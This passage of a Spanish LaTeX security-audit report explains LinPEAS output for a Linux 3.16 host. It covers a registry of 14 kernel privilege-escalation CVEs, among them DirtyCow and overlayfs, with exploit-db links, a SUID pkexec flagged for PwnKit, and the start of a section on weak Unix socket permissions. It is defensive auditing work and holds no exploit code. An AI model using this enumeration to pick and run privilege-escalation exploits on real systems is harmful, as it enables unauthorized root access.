del kernel es 3.16.0-6-686-pae, ademas de que nos dice que el comando sudo no esta instalado.

No obstante, el comando ademas de esto, nos da un desglose importante 
de todas las vulnerabilidades, esto en la seccion de \textbf{Kernel Exploit Registry}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{image7.png}
  \caption{Vulnerabilidades de nivel kernel}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=1\textwidth]{image8.png}
  \caption{Vulnerabilidades de nivel kernel}
\end{figure}


Donde en este caso, LinPEAS enumeró una lista de todas 
las vulnerabilidades de nivel de kernel a las que nuestro sistema
tiene, esto debido a la falta de actuaizaciones de seguridad, y que pueden ser 
explotadas para la escalacion de privilegios:

\begin{lstlisting}[style=salidaLinpeas]
╔══════════╣ Kernel Exploit Registry (T1068)
═╣ Operating system ............. Linux
═╣ Kernel release ............... 3.16.0-6-686-pae
═╣ Comparable version ........... 3.16.0.6.686
═╣ Data chunk limit ............. max 25 rows per KERNEL_CVE_DATA_* variable (1..26)
═╣ Kernel config source ......... /boot/config-3.16.0-6-686-pae
CVE: CVE-2014-5207 | Name: fuse_suid | Match data: pkg=linux-kernel,ver>=3.0.1,ver<=3.16.1 | Tags: 1
CVE: CVE-2015-1328 | Name: overlayfs | Match data: pkg=linux-kernel,ver>=3.13.0,ver<=3.19.0 | Tags: ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic},ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic} | Rank: 1
CVE: CVE-2015-8660 | Name: overlayfs (ovl_setattr) | Match data: pkg=linux-kernel,ver>=3.0.0,ver<=4.3.3 | Tags: 1
CVE: CVE-2015-8660 | Name: overlayfs (ovl_setattr) | Match data: pkg=linux-kernel,ver>=3.0.0,ver<=4.3.3 | Tags: ubuntu=(14.04|15.10){kernel:4.2.0-(18|19|20|21|22)-generic} | Rank: 1
CVE: CVE-2016-0728 | Name: keyring | Match data: pkg=linux-kernel,ver>=3.10,ver<4.4.1 | Tags: 0 | Rank: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working
CVE: CVE-2016-2384 | Name: usb-midi | Match data: pkg=linux-kernel,ver>=3.0.0,ver<=4.4.8 | Tags: ubuntu=14.04,fedora=22 | Rank: 1 | Details: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user
CVE: CVE-2016-5195 | Name: dirtycow | Match data: pkg=linux-kernel,ver>=2.6.22,ver<=4.8.3 | Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04 | Rank: 4 | Details: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
CVE: CVE-2016-5195 | Name: dirtycow 2 | Match data: pkg=linux-kernel,ver>=2.6.22,ver<=4.8.3 | Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic} | Rank: 4 | Details: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
CVE: CVE-2021-27365 | Name: linux-iscsi | Match data: pkg=linux-kernel,ver<=5.11.3,CONFIG_SLAB_FREELIST_HARDENED!=y | Tags: RHEL=8 | Rank: 1 | Details: CONFIG_SLAB_FREELIST_HARDENED must not be enabled
CVE: CVE-2021-22555 | Name: Netfilter heap out-of-bounds write | Match data: pkg=linux-kernel,ver>=2.6.19,ver<=5.12-rc6 | Tags: ubuntu=20.04{kernel:5.8.0-*} | Rank: 1 | Details: ip_tables kernel module must be loaded
CVE: CVE-2018-14665 | Name: exploit_x | Match data: 2.6.22,2.6.23,2.6.24,2.6.25,2.6.26,2.6.27,2.6.27,2.6.28,2.6.29,2.6.30,2.6.31,2.6.32,2.6.33,2.6.34,2.6.35,2.6.36,2.6.37,2.6.38,2.6.39,3.0.0,3.0.1,3.0.2,3.0.3,3.0.4,3.0.5,3.0.6,3.1.0,3.2.0,3.3.0,3.4.0,3.5.0,3.6.0,3.7.0,3.7.6,3.8.0,3.9.0,3.10.0,3.11.0,3.12.0,3.13.0,3.14.0,3.15.0,3.16.0,3.17.0,3.18.0,3.19.0,4.0.0,4.1.0,4.2.0,4.3.0,4.4.0,4.5.0,4.6.0,4.7.0 | Tags: 1 | Rank: http://www.exploit-db.com/exploits/45697
CVE: CVE-2015-8660 | Name: overlayfs | Match data: 3.13.0,3.16.0,3.19.0 | Tags: http://www.exploit-db.com/exploits/39230
CVE: CVE-2026-43503 | Name: DirtyClone | Match data: pkg=linux-kernel,ver>=3.9,ver<5.10.257 | Tags: 1 | Rank: Fixed in stable 5.10.257; exploit path is in the networking stack and may be mitigated by removing the relevant ESP modules
CVE: CVE-2026-43499 | Name: GhostLock rtmutex UAF | Match data: pkg=linux-kernel,ver>=2.6.39,ver<5.10.261,CONFIG_FUTEX_PI=y | Tags: 1 | Rank: Fixed in stable 5.10.261; priority-inheritance futexes must be enabled
═╣ Kernel vulns found: 14
\end{lstlisting}

Con esto podemos ver 
que se cuentan con 14 vectores de ataque a nivel kernel, destacando vulnerabilidades críticas c
omo DirtyCow (CVE-2016-5195) y fallos en overlayfs. 

Por último, LinPEAS también audita los binarios del sistema que cuentan 
con permisos especiales (SUID), donde tenemos el ejemplo de pkexec:

\begin{lstlisting}[style=salidaLinpeas]
  ╔══════════╣ Checking Pkexec and Polkit (T1548.003,T1548.004,T1068)
══╣ Polkit Binary (T1548.003,T1068)
Pkexec binary found at: /usr/bin/pkexec
Pkexec binary has SUID bit set!
-rwsr-xr-x 1 root root 18072 Sep  8  2016 /usr/bin/pkexec
pkexec version 0.105
Potentially vulnerable to CVE-2021-4034 (PwnKit) - check distro patches
  
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{img/image19.png}
  \caption{Detección de binario pkexec con bit SUID activado.}
  
\end{figure}

Lo que nos dice esta salida, es que el binario pkexec tiene el bit SUID activado, 
lo cual es un riesgo de seguridad, ya que este comando tiene 
vulnerabilidades conocidas, como la CVE-2021-4034 (PwnKit), 
la cual permite a un usuario local sin privilegios ejecutar comandos 
como root.

Además del escaneo de vulnerabilidades del kernel y binarios SUID, la herramienta LinPEAS realizó una auditoría sobre las comunicaciones internas del sistema, arrojando alertas de alta severidad en la sección de \textbf{Unix Sockets Analysis}.

Un socket Unix funciona como un canal de comunicación en tiempo real entre los procesos locales del sistema. Donde en este caso radica la vulnerabilidad, es en la mala configuración de los permisos de acceso a estos archivos. 

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{img/image13.png}
  \caption{Detección de sockets Unix con permisos débiles en servicios críticos.}
\end{figure}

\begin{figure}[H]
  \centering
